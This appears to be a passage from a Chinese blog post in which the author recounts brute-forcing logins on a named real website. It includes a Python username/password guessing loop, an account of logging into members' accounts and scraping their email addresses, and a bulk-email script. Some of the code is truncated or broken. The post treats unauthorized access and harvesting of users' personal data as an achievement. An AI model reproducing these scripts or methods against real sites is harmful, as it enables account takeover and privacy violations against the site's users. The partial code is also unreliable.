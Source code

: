````
        pass
    else:
        with open('sucess.txt','a+')as f:
            f.write('log:'+i+'\r'+'passwd:'+j)

with open('yonghu.txt', 'r')as f:
    for i in f:
        baopo(i, i)        #用户名也验证一下
        print(i)
        with open('passwd.txt', 'r')as g:
            for j in g:
                print(j)

                baopo(i, j)
````


看到这满满的用户名密码：心里可满足了。

![](http://upload-images.jianshu.io/upload_images/6967995-68a11595ca427dd4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

这战绩还是不错的。登录一下啊，还有大概40多个是终身会员，还真有忠实的粉丝冲钱。
还看看到一个额外的福利，不知道是不是太忙，冲了钱忘记花了，还是睡的早，记性不好。最关键的还是网站有站内提现的功能，本着不破坏的原则，就不动他的余额了。希望下次他自己用掉吧！

![](http://upload-images.jianshu.io/upload_images/6967995-de8124e7b59b342a.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

到这仍然没有结束，现在我能拿到帐号，密码，会员，还是不太甘心，再发掘发掘有没有其他的内容，也没有什么了，就有一个邮箱还算个人的隐私。这样吧！我也就不好意思了，写个脚本把[你们的邮箱](http://sstushu.net/%e4%b8%aa%e4%ba%ba%e4%b8%ad%e5%bf%83)全都批量的拿下来吧！
![](http://upload-images.jianshu.io/upload_images/6967995-98d28e928d1d8bc7.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)



![](http://upload-images.jianshu.io/upload_images/6967995-bec38c31cbcefa09.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

````
import re
````
为了再装最后一波B就在网址上留下http://hack的标记，记得你的密码有点弱，下次就要改下密码了。
### 发送邮件
然后把提取下来的脚本的邮箱们我再发送一封邮件，这种重复性的动作就继续上脚本。

````
import linecache
import time
from email.mime.text import MIMEText
from email.header import Header
from smtplib import SMTP_SSL
lines = linecache.getlines('email.txt')
email_list = []
for i in lines:
    email_list.append(str(i))
for i in range(len(email_list)):
#设置的参数登录帐号 邮箱 密码
smtpserver = '.163.com'    #发邮件邮箱服务
poplibserver = 'pop.163.com'    #查看邮件服务
sender = 'xxxxxxxx@163.com' # 邮件登陆着，发件人
passwd = 'xxxx' # 登录邮件的授权密码
receive = email_list[i] #接受者的邮箱，换成列表就可以多个发送
#设置发送内容的
emailsubject = 'hello，温馨提醒，已经有人修改你的帐号内容，你的绅士图书馆账号密码过于简单已经泄漏，请登录后修改密码。'
emailtitle = 'change your passwd'
#构造一封邮件
message = MIMEText(emailtitle, 'plain', 'utf-8') #plain文本的格式
message['Subject'] = Header(emailsubject, 'utf-8')
message['From'] = sender
````